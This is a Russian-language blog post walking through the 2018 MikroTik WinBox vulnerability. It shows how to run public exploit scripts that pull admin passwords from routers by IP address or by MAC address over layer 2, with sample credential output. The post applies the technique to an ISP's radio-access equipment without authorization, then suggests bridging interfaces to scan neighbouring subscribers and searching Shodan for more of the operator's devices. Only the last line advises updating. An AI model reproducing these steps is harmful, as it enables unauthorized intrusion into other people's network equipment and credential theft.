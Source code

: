 ```yaml
---
title: "Mikrotik WinBoxExploit изучаем оператора радио-доступа."
date: 2018-12-05 09:52:51 +0000
categories:
  - mikrotik
tags:
  - exploit
sidebar:
  - title: "Mikrotik WinBoxExploit"
    image: http://placehold.it/350x250
    image_alt: "image"
    text: "Some text here."
  - title: "Another Title"
    text: "More text here."
---
```

 
Первая новость о взломе на сайте Mikrotik  появилась 25 марта 2018 г. 
https://blog.mikrotik.com/security/winbox-vulnerability.html (update 9th Oct, 2018 New Exploit )

В ней говорится что уязвимость  обнаружена в версиях:

* Affected all bugfix releases from 6.30.1 to 6.40.7, fixed in 6.40.8 on 2018-Apr-23
* Affected all current releases from 6.29 to 6.42, fixed in 6.42.1 on 2018-Apr-23
* Affected all RC releases from 6.29rc1 to 6.43rc3, fixed in 6.43rc4 on on 2018-Apr-23

На странице [https://github.com/BigNerd95/WinboxExploit](https://github.com/BigNerd95/WinboxExploit), выложен python скрипт взлома пароля к роутерам mikrotik.

Более подробно о методике выявления уязвимости рассказано на странице [https://n0p.me/winbox-bug-dissection/](https://n0p.me/winbox-bug-dissection/), ссылка есть на github у того же [BigNerd95](https://github.com/BigNerd95/WinboxExploit).

  Вероятно, можно построить свою ботнет сеть, с помощью  такой уязвимости и уже кто-то это сделал:  
  * На взломанных роутерах появились надписи HACKED FTP server, HACKED-ROUTER-HELP-SOS-WAS-MFWORM-INFECTED или HACKED-ROUTER-HELP-SOS-HAD-DEFAULT-PASSWORD ([см более подробно на сайте хакер](https://xakep.ru/2018/03/29/hajime-hunts-mikrotik/)).
  * Также есть герой с [https://habr.com/users/LMonoceros/](https://habr.com/users/LMonoceros/ )  который написал скрипт , который заблокировал эту уязвимость     и оставил доступ только из локальной сети [Для чего хакерам Микротик и как я спрятал 100 тыс. RouterOS от ботнета](https://habr.com/post/424433/) 

Для того что бы применить скрипт, нет ничего сложного: 
```bash
# python WinboxExploit.py  _ip_address_
```
результатом будет: 
{% highlight python %}
5.14.128.18
User: root
Pass:
User: admin
Pass:
User: admin
Pass: ddsER
User: create
Pass: WBCWGwewe
{% endhighlight %}

### Немножко усложним задачу:
-<s>Взломаем</s> Изучим оператора, который предоставляет вам радиодоступ, когда мы не знаем _IP address_ оборудования или если он не настроен . У нас есть только прямое подключение к клиентскому оборудованию, которое по радио подлючено к точке доступа оператора.

![]({{ site.baseurl }}/uploads/800-IMG_20160430_143159.jpg "пример подключения")

Данный exploit позволяет просканировать L2 сегмент сети и обнаружить mac адреса Mikrotik.
```bash
$ python MACServerDiscover.py
Looking for Mikrotik devices (MAC servers)
    aa:bb:cc:dd:ee:ff 
    aa:bb:cc:dd:ee:aa
```
После чего запускаем уже следующий скрипт.
```bash
$ python MACServerExploit.py aa:bb:cc:dd:ee:ff
User: admin
Pass: Th3P4ssWord
```

Дальше можно применить свои знания и умения по подключению через winbox, ssh,  telnet, к оборудониваю и узнать ssid security. Что даст нам вожможность заменить оконечное оборудование самостоятельно, к примеру при покупке более мощной абонентской точкой доступа.

Если оператор  не позаботился о безопасности, и не запретил _forwarding_ между абонентскими точками доступа, можно настроить bridge между ether1 и wlan1 и просканировать по mac адресам соседей/сектора.  
```bash
/interface bridge
add name=bridge1
/interface bridge port
add bridge=bridge1 interface=ether1
add bridge=bridge1 interface=wlan1
```
### Усложним задачу еще немножко:

Используя сервис [https://bgp.he.net](https://bgp.he.net), узнаем свой ip_address и prefixv4 своего оператора, проверим его на сервисе [https://shodan.io](https://shodan.io).
Введя  в строке поиска (_доступно после регистрации_)
```bash
mikrotik net:"5.140.28.0/19"
```
и получим:
![]({{ site.baseurl }}/uploads/shodan.png "результаты поиска")



### Sysadmin не забывай обновлять routeros , настривать правила доступа к оборудованию.

<!-- Yandex.Metrika counter --> <script type="text/javascript" > (function(m,e,t,r,i,k,a){m[i]=m[i]||function(){(m[i].a=m[i].a||[]).push(arguments)}; m[i].l=1*new Date();k=e.createElement(t),a=e.getElementsByTagName(t)[0],k.async=1,k.src=r,a.parentNode.insertBefore(k,a)}) (window, document, "script", "https://mc.yandex.ru/metrika/tag.js", "ym"); ym(53515717, "init", { clickmap:true, trackLinks:true, accurateTrackBounce:true, webvisor:true }); </script> <noscript><div><img src="https://mc.yandex.ru/watch/53515717" style="position:absolute; left:-9999px;" alt="" /></div></noscript> <!-- /Yandex.Metrika counter -->
